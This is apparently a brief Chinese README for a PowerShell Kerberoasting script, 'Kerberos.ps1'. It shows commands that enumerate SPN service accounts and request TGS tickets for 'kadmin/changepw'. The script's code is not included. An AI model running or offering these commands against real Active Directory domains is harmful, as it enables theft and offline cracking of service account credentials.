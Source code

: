# Kerberos.ps1

该脚本是简单封装的Kerberostring利用脚本，即获取SPN服务账户和获取请求票据的操作

```
Import-Module .\kerberos.ps1
```

```
# 获取SPN服务账户
Frail-Spns
# 请求服务票据TGS
Inject-Ticket kadmin/changepw
```
![image-20210427144927582](https://github.com/CobaltZirs0n/RunExploit/blob/main/images/image-20210427144927582.png)




